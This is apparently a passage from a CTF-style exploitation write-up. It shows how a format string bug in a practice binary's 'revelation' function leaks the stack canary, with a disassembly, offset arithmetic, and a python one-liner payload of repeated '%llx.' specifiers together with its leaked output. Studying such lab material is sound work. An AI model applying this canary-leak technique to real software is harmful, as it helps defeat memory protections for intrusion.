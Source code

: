 We might be able to use the format string exploit in the revelation function to read the stack canary. Thing is the canary for the revelation function, and the main function should be the same canary (even though the canary is randomly generated for every instance of the program). So if we used the format string exploit in revelation to read the canary, then used it to overwrite the canary in main, it should work. To figure out how to read the canary, we will need to look at the assembly for the revelation function.

```
Dump of assembler code for function revelation:
   0x00000000004006b7 <+0>:	push   rbp
   0x00000000004006b8 <+1>:	mov    rbp,rsp
   0x00000000004006bb <+4>:	sub    rsp,0x200
   0x00000000004006c2 <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004006cb <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006cf <+24>:	xor    eax,eax
   0x00000000004006d1 <+26>:	mov    rdx,QWORD PTR [rip+0x200988]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006d8 <+33>:	lea    rax,[rbp-0x200]
   0x00000000004006df <+40>:	mov    esi,0x1e8
   0x00000000004006e4 <+45>:	mov    rdi,rax
   0x00000000004006e7 <+48>:	call   0x400580 <fgets@plt>
   0x00000000004006ec <+53>:	lea    rax,[rbp-0x200]
   0x00000000004006f3 <+60>:	mov    rdi,rax
   0x00000000004006f6 <+63>:	mov    eax,0x0
   0x00000000004006fb <+68>:	call   0x400560 <printf@plt>
   0x0000000000400700 <+73>:	nop
   0x0000000000400701 <+74>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400705 <+78>:	xor    rax,QWORD PTR fs:0x28
   0x000000000040070e <+87>:	je     0x400715 <revelation+94>
   0x0000000000400710 <+89>:	call   0x400550 <__stack_chk_fail@plt>
   0x0000000000400715 <+94>:	leave  
   0x0000000000400716 <+95>:	ret    
End of assembler dump.
```

So we can see at the end, it calls the stack check function so we know it has a stack canary. At the beginning of the assembly code, we can see where the stack canary will be stored.

```
   0x00000000004006bb <+4>:	sub    rsp,0x200
   0x00000000004006c2 <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004006cb <+20>:	mov    QWORD PTR [rbp-0x8],rax
```

So the stack canary is stored 0x200 (512) bytes down the stack. However before we start reading through the stack we have to read through the 6 registers that it would expect input from in this order %rdi, %rsi, %rdx, %rcx, %r8, and %r9. That will take 40 bytes to get through the registers, and then start reading through the stack (the reason why it isn't 48 bytes is probably because we have to skip past the rdi register which stores the format string, and is also the first argument). So in total we have to read 0x200 + 40 = 552 bytes in order to get the stack canary. However we can read the bytes as long longs, which will display 8 bytes of data at a time. So we should only have to read 552 / = 69 long longs in order to get the stack canary. Let's try it.

```
$	python -c 'print "%llx."*69' | ./d0_64 
60216a.7ffff7dd3790.6c6c252e786c6c25.60216a.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.a2e.0.0.2f2f2f2f2f2f2f2f.2f2f2f2f2f2f2f2f.0.0.0.0.0.0.ff00000000000000.0.0.0.5f5f00656d697474.7465675f6f736476.0.0.1.5b25a075507a3600.
```
